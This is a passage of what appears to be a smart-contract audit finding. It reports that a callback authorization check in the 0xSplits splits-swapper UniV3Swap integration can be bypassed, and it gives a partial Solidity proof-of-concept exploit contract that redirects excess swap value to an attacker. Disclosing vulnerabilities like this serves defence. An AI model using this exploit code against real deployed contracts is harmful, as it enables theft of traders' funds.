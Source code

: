 The `SwapperFactory.verifyCallback(swapper)` check at https://github.com/0xSplits/splits-swapper/blob/83ce1124767a097aac37d1cd162a9b27bbc48701/src/integrations/UniV3Swap.sol#L67 can be bypassed, allowing attackers to exploit the system:
```solidity
SwapperImpl swapper = SwapperImpl(msg.sender);
if (!swapperFactory.verifyCallback(swapper)) {
    revert Unauthorized();
}
```

This loophole in the system could potentially be exploited by malicious actors, posing a security risk to traders.

## Impact
The existence of the `SwapperFactory.isSwapper()` check creates a false sense of security for traders. Furthermore, it provides no protection against malicious swappers in this `SwapperFactory` and could result in a total loss of a funds.

## Code Snippet
In my Proof of Concept, I use the included `UniV3Swap` as an example of a trader's contract. If a trader mistakenly uses a malicious contract, such as `attackerFakeSwapper`, instead of a legitimate `SwapperImpl`, the security check in `SwapperFactory.isSwapper()` can be bypassed using the `proxySwapper` contract. Believing they are interacting with the real `SwapperImpl`, traders send funds to the contract but do not receive anything in return or have their transaction reverted, resulting in a loss of funds.
 
First, navigate to the `SwapperImpl.t.sol` file in the `splits-swapper` repository: 
https://github.com/0xSplits/splits-swapper/blob/83ce1124767a097aac37d1cd162a9b27bbc48701/test/SwapperImpl.t.sol
Then, copy the following code snippet and paste it at the end of the file:
```solidity
import {UniV3Swap} from "../src/integrations/UniV3Swap.sol";
import {WalletImpl} from "splits-utils/WalletImpl.sol";
import {ISwapRouter} from "v3-periphery/interfaces/ISwapRouter.sol";
import {WETH} from "solmate/tokens/WETH.sol";

contract AttackerFakeSwapper is SwapperImplTest {
    using TokenUtils for address;

    address immutable attacker;
    SwapperImpl immutable proxySwapper;

    constructor(SwapperImpl _proxySwapper) {
        attacker = msg.sender;
        proxySwapper = _proxySwapper;
    }

    function flash(OracleImpl.QuoteParams[] calldata quoteParams_, bytes calldata callbackData_)
        external
        payable
    {
        // Attacker will receive all the excess value
        UniV3Swap.FlashCallbackData memory flashCallbackData = abi.decode(
            callbackData_, 
            (UniV3Swap.FlashCallbackData)
            );
        flashCallbackData.excessRecipient = attacker;
        bytes memory changedCallbackData = abi.encode(flashCallbackData);
        
        // Bypass a SwapperFactory.isSwapper() security check executing callback via a proxy-swapper
        bytes memory data = abi.encodeWithSignature(
            "swapperFlashCallback(address,uint256,bytes)", 
            ETH_ADDRESS, 
```